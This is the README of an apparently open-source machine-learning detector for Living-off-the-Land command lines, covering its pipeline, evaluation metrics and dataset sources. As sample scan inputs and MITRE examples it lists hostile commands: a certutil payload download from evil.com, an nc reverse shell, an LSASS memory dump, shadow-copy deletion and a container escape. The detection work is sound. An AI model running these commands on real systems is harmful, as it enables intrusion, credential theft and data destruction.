

<div align="center">

# LotLDetector

### Living-off-the-Land Attacks Detection System by Machine Learning

[](https://www.python.org/)
[]()
[]()

---

</div>

## Overview

LotLDetector is a security framework designed to detect Living-off-the-Land techniques across Windows and Linux command lines. By abusing trusted, cryptographically signed administrative utilities such as certutil, wmic, netsh, powershell, or standard POSIX binaries, adversaries execute malicious actions while blending into legitimate enterprise administration traffic.

LotLDetector integrates rule-based semantic feature engineering, dual-view de-obfuscation, platform-calibrated Random Forest classification, and Sentence-BLEU lexical matching against authoritative threat corpora.

> [!NOTE]
> Safe Static Inspection: LotLDetector operates strictly as a static string analyzer. It never executes or spawns child processes, making it safe for real-time EDR sensors, SIEM ingestion pipelines, and forensic triage workflows.

---

## System Workflow

The detection engine processes incoming command lines through a multi-stage hybrid pipeline:



### Execution Steps:
1. **Input and Normalization:** Unrolls command-line escape characters such as Windows caret, strips redundant whitespace, categorizes IPv4 addresses into private or public tiers, and tokenizes command components.
2. **Feature Extraction:** Matches tokens against binary registries, sensitive system paths, and behavioral regular expressions to produce a semantic label vector.
3. **Dual-Track Evaluation:**
   - Statistical track: Transforms labels via CountVectorizer and computes malicious posterior probability using a 100-tree balanced Random Forest.
   - Lexical track: Computes runtime Sentence-BLEU similarity against historical attack corpora.
4. **Decision Logic:** Emits an actionable verdict based on platform-calibrated risk thresholds: threshold 0.35 for Windows and threshold 0.60 for Linux.

---

## Key Features

- Dual-Engine Hybrid Classifier: Bridges statistical generalizability with precision signature matching against LOLBAS and GTFOBins.
- Platform-Calibrated Decision Boundaries:
  - Windows threshold 0.35: Classifies a command as BAD when its Random Forest score reaches 0.35.
  - Linux threshold 0.60: Uses a higher Random Forest cutoff; matching the BLEU corpus can also produce BAD on either platform.
- De-Obfuscation and Multi-View Normalization: Transparently unwraps caret-obfuscated commands and classifies network destinations without external dependencies.
- Tri-State Verdict Telemetry: Eliminates forced-choice errors on sparse command lines by safely assigning `NEUTRAL` for secondary process-tree analytics.
- Traceability: Exports the fitted numeric training matrix to the features directory for model explainability and compliance auditing.

---

## Evaluation Results

Each platform dataset is split directly into 90% train and 10% test, stratified by label with seed 42. Both models were retrained on 2026-11-03 after extending symbolic feature coverage and migrating the original regex groups to independent rules. Raw datasets, train/test membership, RF settings, decision thresholds and BLEU reference files were held fixed for the before/after comparison.

Windows test: **1,425 samples, including 67 BAD**. Linux test: **893 samples, including 212 BAD**. These are internal row-level holdouts. Related source records, documentation versions and templates may span both splits. The test rows and class proportions differ from earlier revisions, so scores are not directly comparable. More benign data makes false alerts more visible; dataset size alone does not establish better detection.

### Windows Test Holdout

```text
                                          precision    recall  f1-score   support

Good/Neutral     0.9918    0.9823    0.9871      1358
         Bad     0.7000    0.8358    0.7619        67

    accuracy                         0.9754      1425
   macro avg     0.8459    0.9091    0.8745      1425
weighted avg     0.9781    0.9754    0.9765      1425

TN=1334 FP=24 FN=11 TP=56
NEUTRAL=544 (including 0 BAD samples)
```

### Linux Test Holdout

```text
                                          precision    recall  f1-score   support

Good/Neutral     0.9755    0.9927    0.9840       681
         Bad     0.9750    0.9198    0.9466       212

    accuracy                         0.9754       893
   macro avg     0.9752    0.9562    0.9653       893
weighted avg     0.9754    0.9754    0.9751       893

TN=676 FP=5 FN=17 TP=195
NEUTRAL=16 (including 0 BAD samples)
```

### Added symbolic features — 2026-11-03

The additions are marked `PHẦN BỔ SUNG 2026-11-03` in the source. The original Adobe-style feature lists remain in place:

- `rules_constants.py`: separate `ADDED_WINDOWS_BINARIES` and `ADDED_LINUX_BINARIES` inventories combine the existing names with the recorded LOLBAS/GTFOBins snapshots. Windows also includes standard PowerShell administration cmdlets. The lists contain 612 Windows entries and 561 Linux entries, including names already recognized by older rules.
- `label_generators.py`: `BinaryLabelGenerator` emits `BIN_*` presence features for known tool names, including names within full paths. Windows matching ignores case and accepts names with or without executable extensions; Linux matching respects case. This is lexical evidence, not a shell parser or proof of execution.
- `rules_constants.py`: separately named `ADDED_*` behavior features cover CIM/WMI execution, library loading, proxy/GPU launch options, script schemes, privilege-related options, shell escapes and execution hooks. Query/help features also describe ordinary administration. None of these additions forces a BAD verdict.
- `pipeline.py`: appends the new symbolic labels to the original labels before CountVectorizer and RF. The binary ground-truth labels remain exactly 0/1; no third target class, TF-IDF or raw-command memorization was added. `FEATURE_VERSION` was incremented so old models cannot silently run with the new extractor.

The same test rows were used before and after this change. Precision/recall/F1 above refer to the BAD class; GOOD and NEUTRAL both count as non-BAD in the binary evaluation.

| Platform | BAD F1 before extension | BAD F1 after extension (v3) | False positives | False negatives | BAD train rows skipped |
|---|---:|---:|---:|---:|---:|
| Windows | 0.6024 | 0.7671 | 49 → 23 | 17 → 11 | 80 → 0 |
| Linux | 0.8208 | 0.9466 | 38 → 5 | 38 → 17 | 225 → 0 |

This is a development holdout reused across revisions, not an independent final benchmark. Published templates and related examples may occur in both splits. More recognized tools do not establish malicious intent, and removing zero-feature cases does not resolve ambiguous source labels or missing process/privilege context. No thresholds were selected using these new test results.

### Independent regex rules — 2026-11-03 (v4)

All original regex blocks now use the same format as the added rules: one named feature rule per raw string. The 9 Windows blocks were expanded into 653 independent rules; the 14 Linux blocks into 466. The separately added 13 Windows and 12 Linux behavior rules retain their names and expressions. Original group comments, binary/keyword/path inventories and the `ADDED_*` distinction are preserved.

This changes matching behavior: alternatives joined with `|` can hide overlapping matches, while separate rules can emit multiple labels for the same command. The conversion preserves every original branch exactly, including escapes and internal alternatives. It does not split pipes inside a named group or character class. `RegexLabelGenerator` already supports independent rules; its matching algorithm is unchanged.

On the training split, no previously emitted regex label was lost. Additional regex labels appeared on 1,434 Windows rows and 40 Linux rows. Both vectorizers, RF models and exported numeric datasets were rebuilt under feature version `adobe-symbolic-independent-regex-v4`. Raw data, split seed, BLEU references, RF settings and verdict thresholds are unchanged.

| Platform | BAD F1 before migration (v3) | BAD F1 after migration (v4) | False positives | False negatives |
|---|---:|---:|---:|---:|
| Windows | 0.7671 | 0.7619 | 23 → 24 | 11 → 11 |
| Linux | 0.9466 | 0.9466 | 5 → 5 | 17 → 17 |

The evaluation blocks above describe the current v4 models. The preceding feature-extension table is historical v3 evidence. These results use the same development holdout, which is not an independent final benchmark.

---

## Quick Start

### 1. Installation

Prerequisites: Python 3.11+

```powershell
cd D:\Github\LotLDetector
python -m venv .venv
.\.venv\Scripts\Activate.ps1
pip install -r requirements.txt
```

### 2. Command-Line Detection

- Interactive Console Mode:
  ```powershell
  python scripts/scan.py --platform windows
  ```
  ```text
  LotLDetector [windows] - type exit to quit
  >>> certutil.exe -urlcache -split -f http://evil.com/payload.exe payload.exe

  >>> dir C:\Users

  >>> exit
  ```

- Ad-Hoc Single Command Scan:
  ```powershell
  python scripts/scan.py --platform windows "wmic process call create 'cmd.exe /c whoami'"
  python scripts/scan.py --platform linux "nc -e /bin/sh 10.10.10.10 4444"
  ```

- Batch File Inspection:
  ```powershell
  python scripts/scan.py --platform windows --file telemetry_commands.txt
  ```

### 3. Model Training and Evaluation

```powershell
# Retrain model
python scripts/train.py --platform windows
python scripts/train.py --platform linux

# Evaluate on test holdout
python scripts/evaluate.py --platform windows
python scripts/evaluate.py --platform linux
```

---

## Dataset and label policy

The input files are `data/raw/windows.csv` and `data/raw/linux.csv`, with exactly two columns: `commands,label`. Label 0 is an inherited benign usage example. Label 1 is a documented LotL abuse example under its source conditions, not proof that every occurrence of that command is malicious.

Source-backed restoration and Windows expansion: **2026-11-02**.

| Platform | GOOD | BAD | Total | Train | Test | BAD in test |
|---|---:|---:|---:|---:|---:|---:|
| Windows | 13,573 | 671 | 14,244 | 12,819 | 1,425 | 67 |
| Linux | 6,805 | 2,125 | 8,930 | 8,037 | 893 | 212 |

Every BAD command has been checked against an actual `Command`, `code`, `prompt` or `Commandline` value in one of the recorded sources. Only line endings and surrounding whitespace are normalized. Addresses, filenames, quoting and placeholders are not filled, repaired or substituted. The 78 locally composed examples and the two locally adapted examples from the previous review are no longer input sources. Existing benign records are retained separately, with their historical provenance limitations recorded.

Shell escapes, callback/proxy execution, network shells, shared-library loading and documented Sudo/SUID/capability cases are included. Normal-looking tools are not excluded merely because administrators can also use them. A privileged GTFOBins example keeps its original source context in the provenance file. Ordinary file operations without that context, standalone discovery, bare applications needing an unseen registry/payload state, damaged examples and direct offensive-tool launchers are kept out of automatic BAD labeling.

The dataset is a collection of published abuse examples and inherited benign records, not independently adjudicated incident telemetry. Some source examples contain placeholders or interactive steps. Source conditions such as privileges, configuration, software versions and an external payload may be essential. A command-only model cannot observe all of those conditions.

### Sources and traceability

| Source | Candidate records examined | BAD rows supported after deduplication |
|---|---:|---:|
| Adobe-reference | 2,150 | 473 |
| GTFOBins-2024 | 1,464 | 1,296 |
| GTFOBins-current | 923 | 715 |
| LOLBAS | 485 | 387 |
| csedikaf-LOTLDetector | 26,302 | 94 |

The last column counts source support, not disjoint contributions: a command may occur in more than one source. The csedikaf candidate count includes Windows source labels 0 and 2 plus the previously reviewed Linux label-2 records. The BAD column does not count benign imports; 12,191 current GOOD rows also have exact records in that source.

Windows previously retained only 1,412 benign records from the local dataset. The latest expansion adds **12,161 GOOD and 48 BAD** records, copied from `windows_commands.xlsx` without repairing executable names, quoting, addresses or filenames. The source workbook has 24,687 label-0 rows, 1,370 suspicious label-1 rows and 1,391 label-2 rows; raw row counts include duplicates and records that are not complete command lines. Label 1 was not automatically mapped to BAD.

Static review excludes missing/ambiguous executable fields, conflicting source labels, and unverified embedded scripts. Some source-labeled benign records contain protection-setting changes or activation/dynamic scripts, so source label 0 is not treated as independent proof of safety. Published source-label-2 records are selected for a visible LotL stage, including MSI, DLL, XSL and signed-utility execution. Direct offensive-tool calls and discovery alone are not added as BAD.

Endpoint protection quarantined trial exports containing encoded PowerShell and other embedded scripts, and the complete `windows.txt` export. Those blocked files were not restored. Deferred records are represented by source row IDs, lengths and hashes in the review ledger, not recreated as executable script content. The canonical `windows.csv` remains readable and was used for the successful training run. Imported benign records remain source-labeled examples rather than independently verified incident ground truth.

- [LOLBAS JSON API](https://lolbas-project.github.io/api/): published command fields and technique metadata.
- [GTFOBins JSON API](https://gtfobins.org/api.json): current examples and context-specific code supplied by the source. No missing Sudo/SUID variants were generated locally.
- [GTFOBins historical source](https://github.com/GTFOBins/GTFOBins.github.io/tree/2868bedf212ef40c04195ad958e4fd4cb127a2f4): the 2024-12-31 snapshot helps restore the original multiline examples without copying damaged serialized variants.
- [Adobe libLOL](https://github.com/adobe/libLOL/tree/4baf4f852c58e7eb5db67686e9a9b4476b0e61f6): public reference prompts, not Adobe's private training dataset. Ordinary or truncated reference entries are not automatically treated as malicious.
- [csedikaf/LOTLDetector](https://github.com/csedikaf/LOTLDetector/tree/21e553a933abc4ff55107b76f3b0f1bf89f713fe): individually selected source-label-2 records with visible LotL behavior. Label 1 in that repository means suspicious and was not automatically converted to BAD. No executable was prepended to argument-only records and no quoting was repaired.

`data/provenance.jsonl` maps each CSV command's SHA256 and label to its source URL/record, function and context. `data/source_manifest.json` records source snapshot hashes, commits and final artifact hashes. The complete snapshots, review decisions and reproducible build script are outside the runtime project at `D:\APT\lotl-sourced-restoration-20261102`.

Third-party legitimate applications are covered when their published examples show LotL use. Direct execution of Mimikatz, Rubeus, JuicyPotato, a miner or an external attack script is not automatically considered Third-Party LotL. Source membership does not establish that software was already installed on a particular host.

### Training and reference limitations

The symbolic extractor was extended and its original regex groups were migrated to independent rules on 2026-11-03; the training and verdict logic are unchanged. The trainer now skips **0 Windows BAD** and **0 Linux BAD** training rows with no features (previously 80 and 225). It fits **12,819 Windows rows / 716 features** and **8,037 Linux rows / 953 features**. Skipped examples remain in raw data and provenance; they are not silently deleted. Feature coverage alone does not establish that a command is distinguishable from ordinary administration.

CSV is the canonical training input. `linux.txt` remains synchronized with Linux CSV. The full `windows.txt` export was quarantined by Windows Security and is currently unavailable; do not assume it contains the expanded Windows dataset. The scan CLI still supports user-supplied TXT command lists.

BLEU keeps a subset of the previously readable references, restricted to source-backed BAD commands in the current train split: 60 Windows references and 33 Linux references. No current test command is present. Windows Security quarantined an expanded Linux reference file; that content was not restored and protection settings were not changed. The broad dataset is learned by RF within the feature coverage above. RF settings, thresholds and the BLEU algorithm were not changed.

The benign data's historical origins are not all independently verified, and Linux benign records remain dominated by `find`. Do not interpret an internal holdout score as a validated production false-positive rate. New source additions or raw-data changes require rebuilding the references, retraining and reevaluating.

---

## MITRE ATT&CK Coverage

Feature rules reference the following MITRE ATT&CK techniques. A matching feature or tool name does not prove an attack, and this table is not a measured coverage claim:

| MITRE ID | Technique Name | Exploited Utility | Representative Sample |
|---|---|---|---|
| T1047 | Windows Management Instrumentation | wmic.exe | `wmic process call create "cmd.exe /c whoami"` |
| T1090.001 | Internal Port Forwarding | netsh.exe | `netsh interface portproxy add v4tov4 listenport=50100 connectaddress=192.168.1.50 connectport=443` |
| T1105 | Ingress Tool Transfer | certutil.exe, bitsadmin.exe | `certutil.exe -urlcache -split -f http://evil.com/p.exe` |
| T1059.001 | Command and Scripting: PowerShell | powershell.exe | `powershell.exe -NoP -NonI -W Hidden -Enc SQBFAFgA...` |
| T1059.003 | Windows Command Shell | conhost.exe, cmd.exe | `conhost.exe --headless payload.bat` |
| T1059.005 | Visual Basic / JScript | cscript.exe, wscript.exe | `cscript.exe //E:jscript C:\users\public\script.js` |
| T1003.001 | OS Credential Dumping: LSASS Memory | rundll32.exe | `rundll32.exe comsvcs.dll, MiniDump <PID> lsass.dmp full` |
| T1490 | Inhibit System Recovery | vssadmin.exe, bcdedit.exe | `vssadmin delete shadows /all /quiet` |
| T1202 | Indirect Command Execution | bash.exe | `bash.exe -c calc.exe` |
| T1543.003 | Windows Service Execution | sc.exe | `sc create evil_svc binPath= C:\temp\nc.exe` |
| T1611 | Escape to Host: Container Escape | nsenter, chroot | `nsenter --target 1 --mount --uts --ipc --net --pid /bin/bash` |

---

## Project Structure

```text
LotLDetector/
├── README.md
├── requirements.txt
│
├── data/
│   ├── raw/
│   │   ├── windows.csv             # 14,244 Windows samples
│   │   └── linux.csv               # 8,930 Linux samples
│   ├── external/
│   │   ├── cmd_known.corpus        # 60 Windows reference commands
│   │   └── bash_known.corpus       # 33 Linux reference commands
│   └── features/
│       ├── windows/train.csv       # Windows feature matrix
│       └── linux/train.csv         # Linux feature matrix
│
├── models/
│   ├── windows/
│   │   ├── rf_classifier.joblib    # Random Forest model
│   │   ├── vectorizer.joblib       # CountVectorizer vocabulary mapping
│   │   └── feature_config.json     # Configuration hashes and threshold metadata
│   └── linux/
│       ├── rf_classifier.joblib    # Random Forest model
│       ├── vectorizer.joblib       # CountVectorizer vocabulary mapping
│       └── feature_config.json     # Configuration hashes and threshold metadata
│
├── scripts/
│   ├── scan.py                     # Command-line scanner
│   ├── train.py                    # Model training pipeline
│   └── evaluate.py                 # Holdout test set evaluation script
│
└── src/
    ├── config.py                   # Hyperparameters, paths, and calibrated thresholds
    ├── data.py                     # Ingestion, stratified splitting, and sparse matrix export
    ├── evaluation.py               # Classification reporting and confusion matrix routines
    ├── features/                   # Feature extraction modules
    │   ├── label_generators.py     # Regex and keyword label extractors
    │   ├── pipeline.py             # Feature pipeline orchestrator
    │   ├── rules_constants.py      # Binary dictionaries, path constants, and rules
    │   └── similarity.py           # Sentence-BLEU n-gram similarity engine
    ├── models/
    │   ├── predictor.py            # Inference engine and decision logic
    │   └── trainer.py              # Random Forest training engine
    └── preprocessing/              # Text normalization
        ├── normalizer.py           # Caret unmasking and IPv4 extraction
        └── tokenizer.py            # Windows CMD and POSIX tokenizers
```

---

## References

1. LOLBAS Project: https://lolbas-project.github.io
2. GTFOBins Project: https://gtfobins.github.io
3. CISA Advisory AA24-038A: https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a
4. Atomic Red Team: https://github.com/redcanaryco/atomic-red-team
5. Adobe libLOL (Foundational Research): Machine Learning and Feature Engineering for Detecting Living off the Land Attacks, IoTBDS, 2022.

---

<div align="center">
  <sub>LotLDetector is an open-source cybersecurity project developed for enterprise threat detection and academic research. Licensed under Apache 2.0.</sub>
</div>
